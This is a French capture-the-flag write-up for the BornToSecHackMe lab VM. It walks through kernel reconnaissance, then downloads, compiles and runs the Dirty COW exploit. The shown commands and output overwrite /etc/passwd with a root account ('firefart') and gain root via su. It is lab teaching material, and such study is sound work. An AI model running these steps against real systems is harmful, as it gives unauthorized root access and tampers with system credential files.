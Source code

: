 # Kernel Exploit

### Reconnaissance

Lorsqu'on est connecté en ssh avec l'utilisateur laurie, la phase de reconnaissance nous permet d'avoir la version du kernel:

```
laurie@BornToSecHackMe:~$ uname -a
Linux BornToSecHackMe 3.2.0-91-generic-pae #129-Ubuntu SMP Wed Sep 9 11:27:47 UTC 2015 i686 i686 i386 GNU/Linux
```

Avec quelques recherche on peux voir que le kernel est sujet a la vulnérabilité copy and write (COW):

*Dirty COW (copy-on-write) est une vulnérabilité de sécurité du noyau Linux qui affecte tous les systèmes d'exploitation Linux, y compris Android. C'est un défaut d'élévation de privilège qui exploite une condition de concurrence dans la mise en œuvre de la copie sur écriture dans le noyau de gestion de la mémoire. Cette vulnérabilité a été découverte par Phil Oester. Un attaquant local peut exploiter cette vulnérabilité pour rendre un fichier accédé en lecture seule en un accès en écriture.*

On va donc télécharger l'exploit et le lancer

- Pour plus d'information sur le fonctionnement de la vulnérabiliter : https://www.youtube.com/watch?v=kEsshExn7aE
- Lien de l'exploit : https://www.exploit-db.com/exploits/40839

### Exploitation

```
laurie@BornToSecHackMe:~$ cd /tmp && wget http://192.168.56.1/dirty.c
[...]
laurie@BornToSecHackMe:/tmp$ gcc dirty.c -o dirty -pthread -lcrypt
laurie@BornToSecHackMe:/tmp$ ./dirty password
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: password
Complete line:
firefart:fi1IpG9ta02N.:0:0:pwned:/root:/bin/bash

mmap: b7fda000

madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'password'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'password'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
laurie@BornToSecHackMe:/tmp$ 
laurie@BornToSecHackMe:/tmp$ su firefart 
Password: 
firefart@BornToSecHackMe:/tmp# id
uid=0(firefart) gid=0(root) groups=0(root)
```

Nous sommes bien root.
